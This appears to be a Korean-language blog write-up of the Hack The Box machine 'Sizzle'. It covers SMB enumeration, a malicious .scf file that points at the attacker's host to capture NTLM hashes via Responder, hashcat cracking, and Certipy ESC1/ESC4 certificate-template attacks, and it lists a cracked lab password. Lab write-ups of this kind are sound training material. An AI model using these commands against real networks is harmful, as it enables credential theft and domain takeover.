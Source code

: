 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### Evil-WinRM [Key Auth]
WinRM은 기본적으로 ID/PW 기반의 기본 인증을 통해 인증하지만, 인증서 기반 인증을 통해 인증할 수도 있다.
```bash
# openssl 통한 CSR 파일 생성
openssl req - new -newkey rsa: 2048 -nodes -keyout private .key - out request.csr
```

## 실패 모음
### AD CS [Active Directory Certificate Services]
88 Port [커버로스] 닫혀있어서 실패...
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.89.62 -vulnerable

# ESC4 Exploit : ECS4는 취약한 템플릿을 만들 수 있는 취약점
certipy template -dc-ip 10.129.89.62 -u amanda -p 'Ashare1972' -template SSL -target sizzle.htb.local -save-old

certipy req -ca 'HTB-SIZZLE-CA' -dc-ip 10.129.89.62 -u 'amanda' -p 'Ashare1972' -template SSL -target 'sizzle.htb.local' -upn 'Authenticated Users@htb.local'

# ESC1 Exploit : 
certipy req -u amanda -p 'Ashare1972' -ca 'HTB-SIZZLE-CA' -template SSL -dc-ip 10.129.89.62 -upn 'Administrators@htb.local'
certipy auth -pfx administrators.pfx -dc-ip 10.129.89.62
```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/f87d0086ead259e73afd7b15405c377c_MD5.jpeg)

![](/assets/images/posts/2025-03-08-Sizzle/74208aab76029e691df0a9d30c327b77_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/58218e4bf47327c33fc31589180b1f64_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/06a2d4d6f3b323ac6a2224ff2203209d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/50f1e956227263d7c075ce19186f646b_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```